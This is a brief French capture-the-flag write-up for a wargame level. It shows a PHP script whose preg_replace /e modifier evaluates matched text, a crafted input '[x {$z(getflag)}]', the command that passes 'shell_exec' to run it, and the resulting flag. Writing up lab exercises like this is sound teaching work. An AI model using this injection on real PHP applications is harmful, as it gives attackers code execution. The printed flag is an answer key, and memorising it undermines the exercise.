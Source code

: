 <pre>
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
<strong>    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);</strong>
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
</pre>
- On remarque que **/e** permet d'executer se qui est recuperer dans le regex et que c'est une faille de securité connu
- Grace a un [post stackoverflow](https://stackoverflow.com/a/43759648) on peut comprendre comment ca fonctionne
- /tmp/toto.php
```
[x {$z(getflag)}]
```
- On lance donc `./level06` avec notre fichier php et la function shell\_exec en deuxieme parametre
```
./level06 /tmp/toto.php "shell_exec"
```
- flag: `wiok45aaoguiboiki2tuin6ub`
